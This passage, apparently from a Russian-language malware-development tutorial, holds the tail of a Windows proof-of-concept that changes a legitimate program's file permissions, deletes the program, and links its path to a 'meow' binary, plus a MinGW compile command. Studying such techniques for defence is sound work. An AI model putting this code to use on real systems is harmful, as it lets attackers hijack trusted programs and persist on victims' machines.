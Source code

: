 ```cpp
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    LocalFree(pNewAcl);
    return 1;
  }
  printf("setting security info: ok\n");

  free(pTokenUser);
  CloseHandle(hToken);
  LocalFree(pNewAcl);

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
  GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

  // create the symbolic link
  if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }

  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

Обратите внимание, что этот PoC включает необходимые заголовки для функций Windows API, работы с безопасностью файлов и манипуляции с идентификаторами SID (Security Identifier). Также используется указатель на функцию `CreateSymbolicLinkA`, которая создаёт символические ссылки (мой `mingw` не хотел компилировать без ошибок без этого).    

### демонстрация

Давайте проверим, как все работает.        

Компилируем наше `meow-meow` "вредоносное" ПО `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

